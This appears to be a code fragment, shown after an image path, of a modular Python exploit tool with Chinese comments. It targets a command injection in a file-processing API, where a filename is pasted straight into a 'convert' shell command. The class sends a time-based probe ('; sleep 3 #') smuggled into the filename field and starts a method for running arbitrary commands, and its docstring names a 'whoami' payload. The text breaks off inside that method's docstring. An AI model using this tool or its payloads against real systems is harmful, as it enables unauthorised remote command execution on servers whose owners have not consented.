 ```python

class CommandInjectionExploit:
    """
    模块化命令注入利用工具
    
    漏洞原理:
    1. FileProcessor.processFile()接收文件名参数
    2. 直接拼接到shell命令: "convert " + filename + " output.pdf"
    3. 未进行任何过滤，导致命令注入
    
    利用方式:
    - 注入payload: "; whoami #"
    - 执行任意系统命令
    """
    
    def __init__(self, target: str, port: int = 80, ssl: bool = False):
        self.target = target
        self.port = port
        self.protocol = "https" if ssl else "http"
        self.base_url = f"{self.protocol}://{target}:{port}"
        self.session = requests.Session()
        
    def check_vulnerability(self) -> bool:
        """
        步骤1: 检测漏洞是否存在
        使用无害payload测试
        """
        print("[*] Step 1: Checking if target is vulnerable...")
        
        # 使用sleep命令测试
        test_payload = "; sleep 3 #"
        
        import time
        start = time.time()
        
        try:
            response = self.session.post(
                f"{self.base_url}/api/file/process",
                json={"filename": f"test.txt{test_payload}"},
                timeout=10
            )
            elapsed = time.time() - start
            
            if elapsed >= 3:
                print("[+] Target is VULNERABLE to command injection!")
                return True
            else:
                print("[-] Target does not appear vulnerable")
                return False
                
        except Exception as e:
            print(f"[-] Error during check: {e}")
            return False
    
    def execute_command(self, command: str) -> Optional[str]:
        """
        步骤2: 执行任意命令
        
        Args:
            command: 要执行的shell命令
            
        Returns:
            命令输出结果（如果成功）
```